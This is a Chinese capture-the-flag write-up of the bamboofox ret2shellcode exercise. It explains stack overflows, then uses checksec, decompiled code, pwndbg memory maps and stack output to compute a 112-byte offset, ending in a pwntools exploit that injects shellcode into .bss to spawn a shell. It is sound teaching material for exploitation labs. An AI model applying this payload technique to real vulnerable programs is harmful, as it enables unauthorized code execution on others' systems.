


[bamboofox] ret2shellcode [CTFwiki]
Table of Contents
栈溢出
基本原理
栈溢出（Stack Overflow）指的是程序向栈中某个变量中写入的字节数超过了这个变量本身所申请的字节数，因而导致与其相邻的栈中的变量的值被改变。这是一种特定的缓冲区溢出漏洞，类似的还有堆溢出，.bss段溢出等溢出方式
关于C语言函数调用栈篇幅较长，可以参看大佬文章
以下是一个简单的程序栈模型
在程序执行函数调用后，会将原函数的程序栈底地址ebp、返回地址retaddr压入栈中，使子程序执行完毕后重新跳转回原程序继续执行
栈空间是从高地址向低地址增长的。但是，若函数中用到了数组作为局部变量时，向数组的赋值时的增长方向是从低地址到高地址的，与栈的增长方向相反。若对未限制数组的赋值边界，则可能对数组进行恶意的越界写入，便会把栈中的数据覆盖，造成栈溢出漏洞


不难想到，攻击栈溢出漏洞的一般主要思路就是：填满变量栈空间并溢出覆盖返回地址，使子程序调用完毕后跳转至其他代码段（比如后台代码）
需要注意的是，32 位和 64 位程序有以下简单的区别
- x86
- 函数参数在函数返回地址的上方
- x64
- System V AMD64 ABI（Linux、FreeBSD、macOS 等采用）中前六个整型或指针参数依次保存在RDI,RSI,RDX,RCX,R8和R9寄存器中，如果还有更多的参数的话才会保存在栈上
- 内存地址不能大于0x00007FFFFFFFFFFF，6 个字节长度，否则会抛出异常
栈溢出漏洞轻则可以使程序崩溃，重则可以使攻击者控制程序执行流程
此外，我们也不难发现，发生栈溢出的基本前提是
- 程序必须向栈上写入数据
- 写入的数据大小没有被良好地控制
C和C++里常见的可以被利用的函数有
- 输入
gets：直接读取一行，忽略\x00scanfvscanf
- 输出
sprintf
- 字符串
strcpy：字符串复制，遇到\x00停止strcat：字符串拼接，遇到\x00停止bcopy
ret2shellcode
ret2shellcode即控制程序执行shellcode代码，是栈溢出漏洞的一种利用方法。shellcode指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的shell
一般来说，shellcode需要我们自己填充。这其实是另外一种典型的利用方法，即此时我们需要自己去填充一些可执行的代码
在栈溢出的基础上，要想执行shellcode，则需要对应的二进制程序在运行时shellcode所在的区域具有可执行权限
题目
首先还是老套路checksec看看文件信息和保护情况，这里是一个几乎没开保护的32位ELF文件
[*] '/mnt/c/Users/asuka/Desktop/CTF/wiki/pwn/ret2shellcode/ret2shellcode'
Arch: i386-32-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX disabled
PIE: No PIE (0x8048000)
RWX: Has RWX segments
拖进32位IDA里反编译一下，发现get函数，感觉可以栈溢出
int __cdecl main(int argc, const char **argv, const char **envp)
{
char s[100]; // [esp+1Ch] [ebp-64h] BYREF
setvbuf(stdout, 0, 2, 0);
setvbuf(stdin, 0, 1, 0);
puts("No system for you this time !!!");
gets(s);
strncpy(buf2, s, 0x64u);
printf("bye bye ~");
return 0;
}
但是在文件里没有找到后台程序，于是无法ret2text获取shell了
先别急，可以看到有段复制字符串的代码strncpy(buf2, s, 0x64u);，意为将输入的字符串s复制给buf2，但是main函数的变量声明里并没有buf2，所以这是一个全局变量，编译时会被写在.bss段里
在IDA里也能验证我们的想法，buf2地址为0x0804A080
.bss:0804A080 buf2 db 64h dup(?) ; DATA XREF: main+7B↑o
那我们来看看.bss段的权限如何
将断点设在main函数处，vmmap查看.bss段的读写执行权限，发现是rwxp，即有执行权限
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
0x8048000 0x8049000 r-xp 1000 0 /home/pwn/桌面/题目/wiki/ret2shellcode/ret2shellcode
0x8049000 0x804a000 r-xp 1000 0 /home/pwn/桌面/题目/wiki/ret2shellcode/ret2shellcode
0x804a000 0x804b000 rwxp 1000 1000 /home/pwn/桌面/题目/wiki/ret2shellcode/ret2shellcode
0xf7dca000 0xf7fb2000 r-xp 1e8000 0 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7fb2000 0xf7fb3000 ---p 1000 1e8000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7fb3000 0xf7fb5000 r-xp 2000 1e8000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7fb5000 0xf7fb6000 rwxp 1000 1ea000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7fb6000 0xf7fb9000 rwxp 3000 0
0xf7fcb000 0xf7fcd000 rwxp 2000 0
0xf7fcd000 0xf7fd0000 r--p 3000 0 [vvar]
0xf7fd0000 0xf7fd1000 r-xp 1000 0 [vdso]
0xf7fd1000 0xf7ffb000 r-xp 2a000 0 /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7ffc000 0xf7ffd000 r-xp 1000 2a000 /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7ffd000 0xf7ffe000 rwxp 1000 2b000 /usr/lib/i386-linux-gnu/ld-2.31.so
0xfffdd000 0xffffe000 rwxp 21000 0 [stack]
这里要避个雷，在我的Ubuntu 22.04（WSL2）里显示的是rw-p，即没有执行权限，如下
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
0x8048000 0x8049000 r-xp 1000 0 /mnt/c/Users/asuka/Desktop/CTF/wiki/pwn/ret2shellcode/ret2shellcode
0x8049000 0x804a000 r--p 1000 0 /mnt/c/Users/asuka/Desktop/CTF/wiki/pwn/ret2shellcode/ret2shellcode
0x804a000 0x804b000 rw-p 1000 1000 /mnt/c/Users/asuka/Desktop/CTF/wiki/pwn/ret2shellcode/ret2shellcode
0xf7d7e000 0xf7d9e000 r--p 20000 0 /usr/lib/i386-linux-gnu/libc.so.6
0xf7d9e000 0xf7f20000 r-xp 182000 20000 /usr/lib/i386-linux-gnu/libc.so.6
0xf7f20000 0xf7fa5000 r--p 85000 1a2000 /usr/lib/i386-linux-gnu/libc.so.6
0xf7fa5000 0xf7fa6000 ---p 1000 227000 /usr/lib/i386-linux-gnu/libc.so.6
0xf7fa6000 0xf7fa8000 r--p 2000 227000 /usr/lib/i386-linux-gnu/libc.so.6
0xf7fa8000 0xf7fa9000 rw-p 1000 229000 /usr/lib/i386-linux-gnu/libc.so.6
0xf7fa9000 0xf7fb3000 rw-p a000 0 [anon_f7fa9]
0xf7fbe000 0xf7fc0000 rw-p 2000 0 [anon_f7fbe]
0xf7fc0000 0xf7fc4000 r--p 4000 0 [vvar]
0xf7fc4000 0xf7fc6000 r-xp 2000 0 [vdso]
0xf7fc6000 0xf7fc7000 r--p 1000 0 /usr/lib/i386-linux-gnu/ld-linux.so.2
0xf7fc7000 0xf7fec000 r-xp 25000 1000 /usr/lib/i386-linux-gnu/ld-linux.so.2
0xf7fec000 0xf7ffb000 r--p f000 26000 /usr/lib/i386-linux-gnu/ld-linux.so.2
0xf7ffb000 0xf7ffd000 r--p 2000 34000 /usr/lib/i386-linux-gnu/ld-linux.so.2
0xf7ffd000 0xf7ffe000 rw-p 1000 36000 /usr/lib/i386-linux-gnu/ld-linux.so.2
0xfffdd000 0xffffe000 rwxp 21000 0 [stack]
查了一下才知道在较新版本的Linux Kernel（v5.10）下.bss段默认没有执行权限，换用kernel版本相对较旧（v5.4）的Ubuntu 20.04就没问题了
OK现在程序的结构就比较清晰了，既然没有后台，那么我们就自己将shellcode写入可执行段里不就好了
那就最后动态调试一下开计算偏移量
pwndbg> stack 36
00:0000│ esp 0xffffcddc —▸ 0x80485c0 (main+147) ◂— mov eax, 0
01:0004│ 0xffffcde0 —▸ 0x8048680 ◂— bound edi, qword ptr [ecx + 0x65] /* 'bye bye ~' */
02:0008│ 0xffffcde4 —▸ 0xffffcdfc ◂— 'AAAAA'
03:000c│ 0xffffcde8 ◂— 0x64 /* 'd' */
04:0010│ 0xffffcdec ◂— 0x0
05:0014│ 0xffffcdf0 —▸ 0xf7fc4540 (__kernel_vsyscall) ◂— push ecx
06:0018│ 0xffffcdf4 ◂— 0xffffffff
07:001c│ 0xffffcdf8 —▸ 0x8048034 ◂— push es
08:0020│ 0xffffcdfc ◂— 'AAAAA'
09:0024│ 0xffffce00 —▸ 0xf7ff0041 ◂— 'invalid format in exception string\n'
0a:0028│ 0xffffce04 ◂— 0x20 /* ' ' */
0b:002c│ 0xffffce08 ◂— 0x0
0c:0030│ 0xffffce0c —▸ 0xffffcf8c ◂— 0x20 /* ' ' */
0d:0034│ 0xffffce10 ◂— 0x0
... ↓ 2 skipped
10:0040│ 0xffffce1c ◂— 9 /* '\t' */
11:0044│ 0xffffce20 —▸ 0xf7fc4540 (__kernel_vsyscall) ◂— push ecx
12:0048│ 0xffffce24 ◂— 0x0
13:004c│ 0xffffce28 —▸ 0xf7d964be ◂— '_dl_audit_preinit'
14:0050│ 0xffffce2c —▸ 0xf7fa8054 (_dl_audit_preinit@got.plt) —▸ 0xf7fddda0 (_dl_audit_preinit) ◂— endbr32
15:0054│ 0xffffce30 —▸ 0xf7fbe4a0 —▸ 0xf7d7e000 ◂— 0x464c457f
16:0058│ 0xffffce34 —▸ 0xf7fd6f80 (_dl_fixup+240) ◂— mov edi, eax
17:005c│ 0xffffce38 —▸ 0xf7d964be ◂— '_dl_audit_preinit'
18:0060│ 0xffffce3c —▸ 0xf7fbe4a0 —▸ 0xf7d7e000 ◂— 0x464c457f
19:0064│ 0xffffce40 —▸ 0xffffce80 —▸ 0xf7fa8000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x229dac
1a:0068│ 0xffffce44 —▸ 0xf7fbe66c —▸ 0xf7ffdba0 —▸ 0xf7fbe780 —▸ 0xf7ffda40 ◂— ...
1b:006c│ 0xffffce48 —▸ 0xf7fbeb00 —▸ 0xf7d98cc6 ◂— 'GLIBC_PRIVATE'
1c:0070│ 0xffffce4c ◂— 0x1
1d:0074│ 0xffffce50 ◂— 0x1
1e:0078│ 0xffffce54 ◂— 0x0
1f:007c│ 0xffffce58 —▸ 0xf7fa8000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x229dac
20:0080│ 0xffffce5c —▸ 0xf7e9eecb (__init_misc+43) ◂— add esp, 0x10
21:0084│ 0xffffce60 —▸ 0xffffd050 ◂— '/mnt/c/Users/asuka/Desktop/CTF/wiki/pwn/ret2shellcode/ret2shellcode'
22:0088│ 0xffffce64 ◂— 0x70 /* 'p' */
23:008c│ ebp 0xffffce68 —▸ 0xf7ffd020 (_rtld_global) —▸ 0xf7ffda40 ◂— 0x0
写入的内容距离栈底ebp的长度为0xffffce68-0xffffcdfc=0x6C=108，再加上4位的ebp地址就是112，万事俱备
EXP
from pwn import *
io = process('./ret2shellcode')
buf2 = 0x0804A080
shell = asm(shellcraft.sh())
payload = shell.ljust(112,'a')+p32(buf2)
io.sendline(payload)
io.interactive()
其中asm(shellcraft.sh())是生成一个32位的shell（如果想生成64位的可以asm(shellcraft.amd64.sh())）
这样就可以顺利拿下shell了
参考
-
CSDN
-
简书
-
BLOG